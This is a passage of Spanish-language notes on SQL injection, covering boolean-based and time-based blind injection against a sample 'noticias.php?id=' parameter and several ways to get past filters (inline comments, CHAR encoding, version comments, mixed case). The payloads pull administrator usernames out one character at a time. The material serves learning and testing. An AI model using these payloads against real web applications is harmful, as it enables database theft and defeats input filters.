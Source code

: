 En caso de que no se pueda sacar el nombre de las tablas y columnas, se deberán extraer el nombre usando fuerza bruta.

### Boolean-Base Blind SQL Injection

En este caso la web no muestra ningún mensaje de error ni tampoco información.

Las inyecciones ciegas son muy lentas y pesadas de explotar. Por ese motivo se suelen automatizar.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION
SELECT substr(user_name,1,1)=‘a’ from administrators
```

Si el primer caracter del primer nombre de usuario es una 'a' será verdadero y no mostrará error

### Time-Base Blind SQL Injection

En este caso no se muestra ningún dato por pantalla, ni siquiera los errores.

Aun así se pueden realizar consultas con un sleep, esto permitirá extraer información dependiendo del tiempo que se demora la consulta.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION
SELECT 1, substr(user_name,1,1)=‘a’ from administrators and sleep(5)
```

### Evitar filtros

Query de prueba:

```sql
SELECT usuario FROM usuarios WHERE usuario='' or 1=1 -- -'
```

- Poner comentarios en vez de ejemplos [ **'/\*\*/or/\*\*/1=0/\*\*/#**]
  - --X
  - /\*X\*/
  - %00

```sql
    SELECT usuario FROM usuarios WHERE usuario=''/**/or/**/1=0/**/#'
```

- Poner el payload en char [ **' CHAR(111, 114) 1=1**]

```sql
    SELECT usuario FROM usuarios WHERE usuario='' CHAR(111,114) 1=1-- -'
```

- Usar anti-comentarios [' and '1'='0' union/\*!select\*/pass from users#]

```sql
    SELECT usuario FROM usuarios WHERE usuario='' and '1'='0' union/*!select*/pass from users#'
```

- Usar ofuscación simple [ ' and '1'='0' uNiOn SeLeCt pass fRoM users# ]
  - SELECT -> SeLeCt
